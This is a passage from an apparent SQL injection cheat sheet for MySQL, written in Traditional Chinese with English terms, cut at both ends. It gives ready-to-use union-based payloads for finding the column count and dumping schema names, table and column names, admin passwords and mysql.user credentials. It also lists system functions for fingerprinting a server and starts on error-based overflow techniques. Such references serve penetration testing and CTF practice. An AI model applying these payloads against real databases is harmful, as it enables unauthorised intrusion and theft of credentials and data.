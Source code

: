         - MySQL <= 5.5
    - `;`
        - PDO支援多語句
- information_schema
    - mysql >= 5.0
- Stacking Query
    - 預設PHP+MySQL不支援Stacking Query
    - 但PDO可以Stacking Query
- 其它：
    - @@version
        - 同version()
    - user()
        - current_user
        - current_user()
        - current user 
    - system_user()
        - database system user
    - database()
        - schema()
        - current database
    - @@basedir
        - MySQL安裝路徑
    - @@datadir
        - Location of db file
    - @@hostname
    - @@version_compile_os
        - Operating System
    - MD5()
    - SHA1()
    - COMPRESS() / UNCOMPRESS()
    - group_concat()
        - 合併多條結果
            - e.g. `select group_concat(username) from users;` 一次返回所有使用者名
    - Collation
        - `*_ci` case insensitive collation 不區分大小寫
        - `*_cs` case sensitive collation 區分大小寫
        - `*_bin` binary case sensitive collation 區分大小寫

- Union Based
    - 判斷column數
        - `union select 1,2,3...N`
        - `order by N` 找最後一個成功的N
    - `AND 1=2 UNION SELECT 1, 2, password FROM admin--+`
    - `LIMIT N, M` 跳過前N筆，抓M筆
    - 爆資料庫名
        - `union select 1,2,schema_name from information_schema.schemata limit 1,1`
    - 爆表名
        - `union select 1,2,table_name from information_schema.tables where table_schema='mydb' limit 0,1`
        - `union select 1,2,table_name from information_schema.columns where table_schema='mydb' limit 0,1`
    - 爆Column名
        - `union select 1,2,column_name from information_schema.columns where table_schema='mydb' limit 0,1`
    - MySQL User
        - `SELECT CONCAT(user, ":" ,password) FROM mysql.user;`
- Error Based
    - 長度限制
        - 錯誤訊息有長度限制
        - `#define ERRMSGSIZE (512)`
    - Overflow
        - MySQL > 5.5.5 overflow才會有錯誤訊息
        - `SELECT ~0` => `18446744073709551615`
        - `SELECT ~0 + 1` => ERROR
        - `SELECT exp(709)` => `8.218407461554972e307`
        - `SELECT exp(710)` => ERROR